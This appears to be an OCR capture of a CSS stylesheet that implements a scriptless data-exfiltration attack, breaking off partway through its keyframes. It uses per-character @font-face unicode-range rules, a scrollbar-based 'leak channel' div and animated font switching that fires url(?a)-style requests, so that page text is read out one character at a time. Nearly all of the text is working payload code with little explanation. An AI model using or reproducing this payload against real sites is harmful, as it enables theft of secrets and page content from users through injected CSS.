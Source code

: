 ````css
@font-face{font-family:has_Q;src:local('Comic Sans MS');unicode-range:U+51;font-style:monospace;}
@font-face{font-family:has_R;src:local('Comic Sans MS');unicode-range:U+52;font-style:monospace;}
@font-face{font-family:has_S;src:local('Comic Sans MS');unicode-range:U+53;font-style:monospace;}
@font-face{font-family:has_T;src:local('Comic Sans MS');unicode-range:U+54;font-style:monospace;}
@font-face{font-family:has_U;src:local('Comic Sans MS');unicode-range:U+55;font-style:monospace;}
@font-face{font-family:has_V;src:local('Comic Sans MS');unicode-range:U+56;font-style:monospace;}
@font-face{font-family:has_W;src:local('Comic Sans MS');unicode-range:U+57;font-style:monospace;}
@font-face{font-family:has_X;src:local('Comic Sans MS');unicode-range:U+58;font-style:monospace;}
@font-face{font-family:has_Y;src:local('Comic Sans MS');unicode-range:U+59;font-style:monospace;}
@font-face{font-family:has_Z;src:local('Comic Sans MS');unicode-range:U+5a;font-style:monospace;}
@font-face{font-family:has_0;src:local('Comic Sans MS');unicode-range:U+30;font-style:monospace;}
@font-face{font-family:has_1;src:local('Comic Sans MS');unicode-range:U+31;font-style:monospace;}
@font-face{font-family:has_2;src:local('Comic Sans MS');unicode-range:U+32;font-style:monospace;}
@font-face{font-family:has_3;src:local('Comic Sans MS');unicode-range:U+33;font-style:monospace;}
@font-face{font-family:has_4;src:local('Comic Sans MS');unicode-range:U+34;font-style:monospace;}
@font-face{font-family:has_5;src:local('Comic Sans MS');unicode-range:U+35;font-style:monospace;}
@font-face{font-family:has_6;src:local('Comic Sans MS');unicode-range:U+36;font-style:monospace;}
@font-face{font-family:has_7;src:local('Comic Sans MS');unicode-range:U+37;font-style:monospace;}
@font-face{font-family:has_8;src:local('Comic Sans MS');unicode-range:U+38;font-style:monospace;}
@font-face{font-family:has_9;src:local('Comic Sans MS');unicode-range:U+39;font-style:monospace;}
@font-face{font-family:rest;src: local('Courier New');font-style:monospace;unicode-range:U+0-10FFFF}

div.leak {
overflow-y: auto; /* leak channel */
overflow-x: hidden; /* remove false positives */
height: 40px; /* comic sans capitals exceed this height */
font-size: 0px; /* make suffix invisible */
letter-spacing: 0px; /* separation */
word-break: break-all; /* small width split words in lines */
font-family: rest; /* default */
background: grey; /* default */
width: 0px; /* initial value */
animation: loop step-end 200s 0s, trychar step-end 2s 0s; /* animations: trychar duration must be 1/100th of loop duration */
animation-iteration-count: 1, infinite; /* single width iteration, repeat trychar one per width increase (or infinite) */
}

div.leak::first-line{
font-size: 30px; /* prefix is visible in first line */
text-transform: uppercase; /* only capital letters leak */
}

/* iterate over all chars */
@keyframes trychar {
0% { font-family: rest; } /* delay for width change */
5% { font-family: has_A, rest; --leak: url(?a); }
6% { font-family: rest; }
10% { font-family: has_B, rest; --leak: url(?b); }
11% { font-family: rest; }
15% { font-family: has_C, rest; --leak: url(?c); }
16% { font-family: rest }
20% { font-family: has_D, rest; --leak: url(?d); }
21% { font-family: rest; }
25% { font-family: has_E, rest; --leak: url(?e); }
26% { font-family: rest; }
30% { font-family: has_F, rest; --leak: url(?f); }
31% { font-family: rest; }
35% { font-family: has_G, rest; --leak: url(?g); }
36% { font-family: rest; }
40% { font-family: has_H, rest; --leak: url(?h); }
41% { font-family: rest }
````